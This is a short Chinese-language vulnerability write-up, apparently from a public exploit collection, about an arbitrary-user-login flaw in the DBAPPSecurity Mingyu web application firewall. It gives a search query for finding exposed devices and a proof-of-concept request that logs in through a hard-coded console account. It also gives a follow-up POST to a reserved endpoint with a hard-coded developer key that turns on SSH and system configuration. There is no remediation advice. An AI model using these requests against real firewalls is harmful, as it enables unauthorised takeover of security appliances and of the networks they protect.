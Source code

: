 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

<a-checkbox checked>安恒 明御WEB应用防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="安恒信息-明御WAF"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658456619582-0ab677aa-d84e-47b1-96b2-481c66831947.png)

验证POC

```php
/report.m?a=rpc-timed
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658456645745-b626ae63-660a-4726-ad5d-efd6c4def0ee.png)

再访问主页面跳转配置页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658456684801-06c03840-87bc-41c5-a234-b8f0aa1ea244.png)

发送请求包配置系统SSH等

```php
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658541896143-bbbe633a-ce06-4e44-bb83-0806a3dde1a6.png)